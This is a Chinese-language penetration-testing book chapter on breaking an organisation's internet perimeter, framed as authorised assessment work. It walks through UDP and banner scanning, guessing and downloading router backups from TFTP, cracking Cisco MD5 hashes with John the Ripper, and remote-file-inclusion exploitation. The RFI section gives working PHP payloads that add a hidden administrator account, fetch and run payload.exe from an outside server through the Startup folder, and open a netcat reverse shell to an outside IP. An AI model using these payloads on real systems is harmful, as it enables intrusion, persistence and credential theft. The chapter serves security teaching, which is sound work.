







# 第七章：用 Python 破解边界

大多数评估人员必须应对的最困难的问题是找到一种方法，从互联网上打破内部网络，而不会钓鱼组织的民众。有时会有广泛暴露的网络，但大多数组织已经学会了加强外部边界。不幸的是，仍然存在一个硬外部和一个较软的内部，监控控制较轻，无法阻止真正的恶意行为者侵害资源。这意味着我们应该模拟恶意行为者执行的活动来破解边界。这反过来又意味着了解今天典型的边界是什么样子。

# 理解今天的边界

一些网络仍然暴露了不应该暴露的服务，但大多数情况下，这些暴露的服务很少会带来可利用的风险。这些具体例子的突出将引发您作为评估人员的心态转变，您可以破解组织的边界。这些并不是互联网上可能发现的所有例子，但它们将突出共同点。

## 明文协议

文件传输协议（FTP）和 Telnet 是明文协议的例子，可能会暴露在边界上，并且通常不会带来大多数自动化工具所排名的风险。除非服务器包含关键数据或可以导致关键数据访问，具有已知的远程代码执行（RCE）漏洞，或者解决方案中有默认或已知的凭据。它们仍然不应该暴露在互联网上，但它们通常不像大多数漏洞管理系统（VMS）所排名的那样危险。原因是攻击者要利用它，他或她有四种主要方法来破坏一个帐户。

最常见的方法是嗅探凭据，这意味着他或她必须在通信的客户端或服务器端本地存在，或者在通过路由路径的通道中。第二种方法是通过破坏存储这些凭据的系统。第三种是通过执行某种类型的社会工程攻击，这意味着如果用户容易受到攻击，这些凭据可能会获得对许多其他服务的访问权限，而不仅仅是明文协议。第四种是对服务执行在线凭据攻击，例如密码喷射、字典攻击或暴力破解。这并不是说明文协议没有风险，而是指出它比 VMS 解决方案所宣传的更难利用。

## Web 应用程序

通过多年的评估、妥协和安全工程师提出的建议，今天暴露的服务的主要例子是 Web 应用程序。这些应用程序可以在各种端口上，包括非标准端口。它们通常是负载平衡的，可能通过复杂的内容交付网络（CDN）提供，这有效地提供了从更接近请求用户基地的服务器提供的材料的缓存版本。此外，这些应用程序可以从虚拟化平台提供，这些平台与其他系统隔离在提供商的环境中。因此，即使您破解了 Web 应用程序，您可能也无法访问目标网络。如果您想知道为什么在破解 Web 应用程序系统后无法取得任何进展，请记住这一点。还要确保您有权限测试客户端未受控制的网络。

## 加密远程访问服务

例如，**远程桌面协议**（**RDP**）和**安全外壳**（**SSH**）等服务通常提供对内部网络的直接访问。这些服务可以通过多因素身份验证进行保护，并且它们是加密的，这意味着执行**中间人**（**MitM**）攻击要困难得多。因此，针对这些服务的攻击将取决于未设置的控制措施，而不是它们的存在。

## 虚拟专用网络（VPN）

除了 Web 服务之外，暴露在互联网上的另一个最常见的服务是 VPN，其中包括但不限于**点对点隧道协议（PPTP）**，**互联网安全协会和密钥管理协议（ISAKMP）**等。对这些服务的攻击通常是多阶段的，并且需要获取其他信息，例如组名或组密码。这将是除了标准用户名和密码之外，作为特定用户进行身份验证的额外步骤。

许多时候，根据实施情况，您甚至可能需要特定的软件与设备关联，例如 Citrix 或 Cisco AnyConnect。一些供应商甚至对其 VPN 软件的许可副本收取费用，因此即使您找到了所有必要的详细信息，您可能仍然需要找到一个有效的软件副本或正确的版本。此外，盗版这些软件组件，而不是购买它们，甚至可能通过使用有自己责任的毒害版本来打开您或您客户的网络，使其面临妥协的风险。

## 邮件服务

我们已经广泛讨论了邮件服务可能被利用的方式。您仍然会看到这些服务暴露在外，这意味着可能仍然有机会找到所需的详细信息。

## 域名服务（DNS）

与识别与**完全合格域名**（**FQDN**）相关的**Internet Protocol**（**IP**）地址有关的服务。许多时候，这些可能在提供的 IP 范围内，但实际上超出了范围，因为它们是由**互联网服务提供商**（**ISP**）拥有的。此外，昨天的漏洞，如区域传输，在今天的网络中通常不容易被利用。

## 用户数据报协议（UDP）服务

除了已经提到的作为 UDP 服务运行的服务之外，您可能会发现**简单网络管理协议**（**SNMP**）和**简单文件传输协议**（**TFTP**）。这两种服务都可以提供系统的详细信息和访问权限，具体取决于它们所透露的信息。如果找到正确的社区字符串，SNMP 可以提供系统详细信息，有时甚至可以提供系统本身的密码，尽管这在面向互联网的系统上非常罕见。另一方面，TFTP 被用作网络设备配置的主要手段，防火墙管理员经常错误地将该服务从**非军事区**（**DMZ**）或半受信任的网络暴露到互联网上。

### 注意

您可以设置自己的 Ubuntu TFTP 服务器来执行这种攻击，方法是从[`www.ubuntu.com/download/alternative-downloads`](http://www.ubuntu.com/download/alternative-downloads)下载 Ubuntu，并使用[`askubuntu.com/questions/201505/how-do-i-install-and-run-a-tftp-server`](http://askubuntu.com/questions/201505/how-do-i-install-and-run-a-tftp-server)中的详细信息设置服务器。

# 了解帐户和服务之间的联系

在面对互联网的资源时，你正在尝试确定哪些服务可能存在漏洞，使你能够访问关键服务。因此，例如，SSH 或 Telnet 可能与 Windows 帐户身份验证无关，除非组织非常成熟，并且正在使用诸如 Centrify 之类的产品。因此，针对这些类型的服务的字典攻击可能无法访问允许你使用提取的详细信息进行横向移动的资源。此外，由于易于整合此类设备，大多数管理团队对 Linux 和基于 Unix 的资源在安全环境中具有相当好的监控。

# 使用 Burp Suite 破解收件箱

我们在第六章中强调了如何使用 Burp Suite 进行密码喷洒，*使用 Python 评估 Web 应用程序*。使用 Burp Suite 最好的目标之一是面向互联网的**Outlook Web Access**（**OWA**）界面。这是你可以进行的最简单的攻击之一，但也是最响亮的攻击之一。你应该始终减少命中收件箱的时间，并使用符合 Active Directory 复杂性要求的非常常见的密码，如前几章中所述。

一旦你确定了与之前请求相比具有不同字节大小的响应，可能会突出显示你已经找到了一个具有有效凭据集的活动收件箱。使用这些详细信息访问收件箱，并寻找关键数据。关键数据包括任何可能被认为对公司敏感的东西，这将突出对领导层的风险或展示需要立即或计划的活动，以纠正该风险。它还包括任何可能允许你访问组织本身的东西。

示例包括通过电子邮件发送的密码和用户名，KeePass 或 LastPass 文件，网络的远程访问指令，VPN 软件，有时甚至是软件令牌。想想你的组织在电子邮件中发送的东西；如果没有多因素身份验证，这是攻击向量的一个很好的选择。为此，越来越多的组织已经转向了多因素身份验证，因此，这种攻击向量正在消失。

# 识别攻击路径

正如许多书籍中所述，包括本书在内，人们经常忘记 UDP。这在一定程度上是因为针对 UDP 服务的扫描的响应经常是虚假的。来自诸如`nmap`和`scapy`之类的工具的返回数据可以为实际上是打开的端口提供响应，但报告为`Open|Filtered`。

## 了解周界扫描的限制

举例来说，对主机的研究表明，基于另一个服务的描述性横幅，TFTP 服务器可能在其上处于活动状态，但使用`nmap`进行的扫描指向该端口为`open|filtered`。

以下图显示了 UDP 服务 TFTP 的响应为 open|filtered，如前所述，尽管它已知为打开：



这意味着该端口实际上可能是打开的，但当大量响应显示许多端口以这种方式表示时，你可能对结果的信任度较低。抓取每个端口和协议的横幅可能是不可能的，因为可能没有实际的横幅可供抓取。诸如`scapy`之类的工具可以通过提供更详细的响应来解决这个问题，以便你自己解释。例如，使用以下命令可能会引发 TFTP 服务的响应：

```py
#!/usr/bin/env python

fromscapy.all import *

ans,uns = sr(IP(dst="192.168.195.165")/UDP(dport=69),retry=3,timeout=1,verbose=1)

```

以下图显示了从 Scapy 执行 UDP 端口扫描，以确定 TFTP 服务是否真正暴露或不暴露：



我们看到有一个未回答的响应，可以使用`summary()`函数获取详细信息，如下所示：



当扫描一个端口和一个 IP 地址时，这并不是很有用，但如果测试的是多个 IP 地址或端口，像下面的扫描一样，`summary()`和`display()`函数将会非常有用：

```py
ans,uns = sr(IP(dst="192.168.195.165")/UDP(dport=[(1,65535)]),retry=3,timeout=1,verbose=1)

```

不管结果如何，TFTP 对这些扫描没有响应，但这并不一定意味着服务已关闭。根据配置和控制，大多数 TFTP 服务不会对扫描做出响应。这样的服务可能会产生误导，特别是如果启用了防火墙。如果你尝试连接到服务，你可能会收到与没有防火墙过滤实际客户端响应相同的响应，如下面的截图所示：



这个例子旨在强调当涉及到暴露的服务、防火墙和其他保护机制时，你不能信任你的 UDP 扫描器。你需要考虑其他细节，比如主机名、其他服务横幅和信息来源。我们专注于 TFTP 作为一个例子，因为如果它暴露了，它对我们作为攻击者提供了一个很好的功能；它不需要凭据来提取数据。这意味着我们只需要知道正确的文件名来下载它。

## 从 TFTP 服务器下载备份文件

因此，要确定这个系统是否实际包含我们想要的数据，我们需要查询实际文件名的服务。如果我们猜对了文件名，我们可以在我们的系统上下载文件，但如果没有，服务将不会提供任何响应。这意味着我们必须根据其他服务横幅来识别可能的文件名。如前所述，TFTP 最常用于存储网络设备的备份，如果使用了自动存档功能，我们可能能够对实际文件名做出合理的猜测。

通常，管理员使用主机名作为备份文件的基本名称，然后随着时间的推移递增备份文件。因此，如果主机名是`example_router`，那么使用这个功能的第一个备份将是`example_router-1`。因此，如果你知道主机名，你可以递增跟随主机名的数字，这代表了潜在的备份文件名。这些请求可以通过 Hydra 和 Metasploit 等工具完成，但你需要根据识别出的主机名生成一个自定义的单词列表。

相反，我们可以编写一个及时的 Python 脚本来满足这个特定的需求，这将更合适。及时脚本是顶级评估者经常使用的概念。它们生成一个脚本来执行当前工具无法轻松执行的任务。这意味着我们可以找到一种自动操纵环境的方式，这是 VMS 不会检测到的。

### 确定备份文件名

要确定潜在的备份文件名范围，你需要识别可能是常规备份例程的主机名。这意味着连接到 Telnet、FTP 和 SSH 等服务，提取横幅。获取大量服务的横幅可能会耗费时间，即使使用 Bash、`for`循环和`netcat`。为了克服这一挑战，我们可以编写一个短小的脚本，来代替我们连接所有这些服务，如下面的代码所示，甚至在未来需要时进行扩展。

这个脚本使用一个端口列表，并将它们提供给每个被测试的 IP 地址。我们使用一系列潜在的 IP 地址作为基本 IP 地址的第四个八位字节。你可以生成额外的代码来从文件中读取 IP，或者从**无类域间路由**（**CIDR**）地址创建一个动态列表，但这将需要额外的时间。如下所示，当前的脚本满足了我们的即时需求：

```py
#!/usr/bin/env python
import socket

def main():
    ports = [21,23,22]
    ips = "192.168.195."
    for octet in range(0,255):
        for port in ports:
            ip = ips + str(octet)
            #print("[*] Testing port %s at IP %s") % (port, ip)
            try:
                socket.setdefaulttimeout(1)
                s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((ip,port))
                output = s.recv(1024)
print("[+] The banner: %s for IP: %s at Port: %s") % (output,ip,port)
            except:
                print("[-] Failed to Connect to %s:%s") % (ip, port)
            finally:
                s.close()

if __name__ == "__main__":
    main()
```

当脚本响应活动横幅时，我们可以去获取服务的详细信息。这可以使用`nmap`等工具来完成，但是脚本的框架可以调整以获取更多或更少的详细信息，执行后续请求，甚至在必要时延长时间。因此，如果`nmap`或其他工具没有正确获取详细信息，可以使用这个脚本。需要注意的是，这比其他工具慢得多，应该作为辅助工具而不是主要工具来对待。

### 注意

正如刚才提到的，`nmap`可以使用 NSE 横幅脚本以更快的速度做类似的事情，如[`nmap.org/nsedoc/scripts/banner.html`](https://nmap.org/nsedoc/scripts/banner.html)中所述。

从横幅抓取的结果中，我们现在可以编写一个 Python 脚本，该脚本可以递增地遍历潜在的备份文件名，并尝试下载它们。因此，我们将创建一个目录来存储从这个快速脚本中请求的所有潜在文件。在这个目录中，我们可以列出内容，并查看哪些内容超过了 0 字节。如果我们看到内容超过了 0 字节，我们就知道我们已经成功地获取了一个备份文件。我们将创建一个名为 backups 的目录，并从中运行这个脚本：

```py
#!/usr/bin/env python
try:
    import tftpy
except:
    sys.exit(“[!] Install the package tftpy with: pip install tftpy”)
def main():
    ip = "192.168.195.165"
    port = 69
    tclient = tftpy.TftpClient(ip,port)
    for inc in range(0,100):
        filename = "example_router" + "-" + str(inc)
        print("[*] Attempting to download %s from %s:%s") % (filename,ip,port)
        try:
tclient.download(filename,filename)
        except:
            print("[-] Failed to download %s from %s:%s") % (filename,ip,port)

if __name__ == '__main__':
    main()
```

正如你所看到的，这个脚本是用来查找从`example_router-0`到`example_router-99`的路由器备份的。结果可以在输出目录中看到，如下所示：


现在，我们只需要确定每个文件的大小，以找到实际的路由器备份，使用`ls -l`命令。这个命令的示例输出可以在下面的截图中看到。正如你在这里看到的，`example_router-5`似乎是一个包含数据的实际文件：



## 破解思科 MD5 哈希

现在我们可以看看备份文件中是否有任何哈希密码，如下所示：



John the Ripper 工具现在可以用来破解这些哈希，只要它们被正确格式化。为此，将这些哈希放在以下格式中：

```py
enable_secret:hash

```

John the Ripper 工具需要备份文件中的数据以特定格式呈现，以便进行处理。以下摘录显示了这些哈希需要以何种格式呈现才能进行处理：

```py
enable_secret:$1$gUlC$Tj6Ou5.oPE0GRrymDGj9v1
enable_secret:$1$ikJM$oMP.FIjc1fu0eKYNRXF931

```

然后，我们将这些哈希放在一个文本文件中，比如`cisco_hash`，并对其运行 John the Ripper，如下所示：

```py
john cisco_hash

```

完成后，您可以使用`john --show cisco_hash`查看结果，并使用提取的凭据登录设备，提升权限并调整其详细信息。利用这种访问权限，如果路由器是主要的外围保护，您可以潜在地调整保护措施，以使您的公共 IP 地址能够访问内部资源。

### 提示

记得使用你写的脚本来获取你的公共 IP 地址，让生活更轻松。

即使在红队参与中，您也应该非常谨慎地对待这个问题。操纵外围防火墙可能会对组织产生不利影响。相反，您应该考虑突出显示您已经获得的访问权限，并要求为您的公共 IP 地址在半受信任或受保护的网络中开通访问权限，具体取决于参与的性质。请记住，除非设备具有可路由的 IP 地址，如公共或面向互联网的地址，否则您可能仍然无法从互联网上看到它，但您可能能够看到以前对您隐藏的端口和服务。一个例子是一个在防火墙后启用了 RDP 的 Web 服务器。一旦执行了外围规则的调整，您可能就可以访问 Web 服务器上的 RDP。

# 通过网站获取访问权限

利用面向互联网的网站通常是攻击组织边界的最可行选项。有许多方法可以做到这一点，但提供访问权限的最佳漏洞包括**结构化查询语言**（**SQL**）**结构化查询语言注入**（**SQLi**），**命令行注入**（**CLI**），**远程和本地文件包含**（**RFI**/**LFI**）以及未受保护的文件上传。关于 SQLi、CLI、LFI 和文件上传漏洞的执行有大量信息，但通过 RFI 进行攻击的信息相对较少，漏洞也很普遍。

## 文件包含攻击的执行

要查找文件包含向量，您需要查找引用资源的向量，无论是服务器上的文件还是互联网上的其他资源：

[`www.example.website.com/?target=file.txt`](http://www.example.website.com/?target=file.txt)

远程文件包含通常引用其他站点或合并的内容：

[`www.example.website.com/?target=trustedsite.com/content.html`](http://www.example.website.com/?target=trustedsite.com/content.html)

我们之所以强调 LFI，除了严格的 RFI 示例之外，是因为文件包含漏洞通常可以在显着的 LFI 和 RFI 向量之间双向工作。应该注意的是，仅因为存在对远程或本地文件的引用并不意味着它是有漏洞的。

在注意到差异后，我们可以尝试确定站点是否适合进行攻击，这取决于底层架构：Windows 还是 Linux/UNIX。首先，我们必须准备好我们的攻击环境，这意味着建立一个面向互联网的 Web 服务器，并在其中放置攻击文件。幸运的是，Python 通过`SimpleHTTPServer`可以轻松实现这一点。首先，我们创建一个将托管我们文件的目录，名为`server`，然后我们 cd 到该目录，然后使用以下命令创建 Web 服务器实例：

```py
python -m SimpleHTTPServer

```

然后，您可以通过在**统一资源定位符**（**URL**）请求栏中输入带有端口号 8000 的主机 IP 地址，用冒号分隔，访问该站点。这样做后，您将看到向服务器发送的许多请求以获取信息。您刚刚建立的新服务器可以用来引用要在目标服务器上运行的脚本。此屏幕截图显示了发送到服务器的相关请求：



如前所述，有时可以使用其他协议与目标 Web 服务器进行交互。如果您通过将 IP 地址添加到防火墙或访问控制列表（ACL）的授权列表中，为自己提供了对半受信任网络或 DMZ 的更多访问权限，您可能能够看到诸如**服务器消息块**（**SMB**）或 RDP 之类的服务。因此，根据环境，您可能不必为自己提供额外的访问权限；只需破解 Web 服务器可能就足以为您提供足够的访问权限。

大多数文件包含漏洞与**PHP**网站相关。其他语言集可能存在漏洞，但基于 PHP 的站点最常见。因此，让我们创建一些伪装成文本文件的 PHP 脚本来验证漏洞并利用底层服务器。

### 验证 RFI 漏洞

当您怀疑自己发现了 RFI 漏洞时，您需要在利用之前验证是否实际存在漏洞。首先，在面向互联网的服务器上启动`tcpdump`服务，并使其监听带有以下命令的**Internet Control Message Protocol**（**ICMP**）回显：

```py
sudo tcpdump icmp[icmptype]=icmp-echo -vvv -s 0 -X -i any -w /tmp/ping.pcap

```

此命令将生成一个文件，其中将捕获由`ping`命令发送的所有消息。对暴露的 Web 服务器进行 ping 操作，找到服务器的实际 IP 地址，并记录下来。然后，创建以下 PHP 文件，将其存储为名为`ping.txt`的文本文件：

```py
<pre style="text-align:left;">
<?php
    echo shell_exec('ping -c 1 <listening server>');
?>
</pre>
```

您现在可以通过以下命令引用文件来执行攻击：

[`www.example.website.com/?target=70.106.216.176:8000/server/ping.txt`](http://www.example.website.com/?target=70.106.216.176:8000/server/ping.txt)

一旦攻击执行完毕，您可以使用以下命令查看**数据包捕获（PCAP）**：

```py
tcpdump -tttt -r /tmp/ping.pcap

```

如果您从您 ping 的同一台服务器看到 ICMP 回显，那么您就知道该服务器容易受到 RFI 的攻击。

### 通过 RFI 利用主机

当您找到一个易受攻击的 Windows 主机时，通常会以特权帐户运行。因此，首先，通过 PHP 脚本向系统添加另一个本地管理员帐户可能是有用的。通过创建以下脚本并将其写入诸如`account.txt`之类的文本文件来完成这一点：

```py
<pre style="text-align:left;">
<?php
    echo shell_exec('net user pentester ComplexPasswordToPreventCompromise1234 /add');
    echo shell_exec('net localgroup administrators pentester /add'):
?>
</pre>
```

现在，我们所要做的就是从我们暴露的服务器引用脚本，就像这样：

[`www.example.website.com/?target=70.106.216.176:8000/server/account.txt`](http://www.example.website.com/?target=70.106.216.176:8000/server/account.txt)

如果可能的话，这将在服务器上创建一个新的恶意本地管理员，我们可以使用它来访问服务器。如果系统的 RDP 暴露在互联网上，我们的工作就完成了，我们只需使用新帐户直接登录系统。如果不是这种情况，那么我们需要找到另一种方法来利用系统；为此，我们将使用实际的有效负载。

创建一个如第五章*使用 Python 利用服务*中所述的有效负载，并将其移动到用于存储引用文件的目录中。

### 提示

用于此攻击的最佳 LPORT 是端口 80、端口 443 和端口 53。只需确保这些服务没有冲突即可。

创建一个新的 PHP 脚本，可以直接下载文件并执行它，名为`payload_execute.txt`：

```py
<pre style="text-align:left;">
<?php
    file_put_contents("C:\Documents and Settings\All Users\Start Menu\Programs\Startup\payload.exe", fopen("http://70.106.216.176:8000/server/payload.exe", 'r'));
    echo shell_exec('C:\Documents and Settings\All Users\Start Menu\Programs\Startup\payload.exe'):
?>
</pre>
```

现在，设置监听器（如第五章*使用 Python 利用服务*中详细说明的）以侦听定义的本地端口。最后，将新脚本加载到 RFI 请求中，观察您的新潜在 shell 出现：

[`www.example.website.com/?target=70.106.216.176:8000/server/payload_execute.txt`](http://www.example.website.com/?target=70.106.216.176:8000/server/payload_execute.txt)

这些是您可以利用 Windows 主机的样本，但如果是 Linux 系统呢？根据主机的权限结构，可能更难获得 shell。也就是说，您可以潜在地查看本地主机，以识别可能包含明文密码的本地文件和存储库。

Linux 和 Unix 主机通常安装了`netcat`和几种脚本语言，这为攻击者提供了好处。每种语言都可以提供一个命令 shell 返回到攻击者的监听系统。例如，使用以下命令在面向互联网的主机上设置`netcat`监听器：

```py
nc -l 443

```

然后，创建一个存储在文本文件中的 PHP 脚本，例如`netcat.txt`：

```py
<pre style="text-align:left;">
<?php
    echo shell_exec('nc -e /bin/sh 70.106.216.176 443'):
?>
</pre>
```

接下来，通过引用先前显示的 URL 中的脚本来运行脚本：

[`www.example.website.com/?target=70.106.216.176:8000/server/netcat.txt`](http://www.example.website.com/?target=70.106.216.176:8000/server/netcat.txt)

### 注意

有几个示例显示了如何在系统上设置其他后门，如[`pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)中所示。

对于 Windows 和 Linux 主机，Metasploit 有`php_include`漏洞，允许您直接将攻击注入到 RFI 中。 PHP Meterpreter 受限且不太稳定，因此在在 Windows 系统上获得立足点后，仍需要下载完整的 Meterpreter 并执行。在 Linux 系统上，您应该提取`passwd`和`shadow`文件并破解它们以获得真正的本地访问。

# 总结

本章重点介绍了针对特定服务的常见入侵方法。然而，我们没有涵盖最常见的入侵方法，即网络钓鱼。网络钓鱼是一种社会工程学的类型，是一门艺术，可能需要几章来描述，但您应该知道，真正的攻击者在找不到进入环境的简单方法时通常会使用网络钓鱼。今天，恶意行为者通常从网络钓鱼开始，因为很容易诱使受害者上钩。

在这些入侵途径之后，评估者和恶意行为者会寻找新修补的零日漏洞，例如 2014 年发现的 Shellshock 和 Heartbleed。像这样的例子通常在提供新补丁几个月后仍然是可利用的，但如果您认为在暴露的服务中发现了漏洞，而没有可用的漏洞利用，或者发现了潜在的零日漏洞，该怎么办呢？虽然很少见，渗透测试人员有时会获得测试潜在零日漏洞的机会，但通常在更受控制的环境中证明妥协的概念。在下一章中，我们将更深入地讨论这个问题。
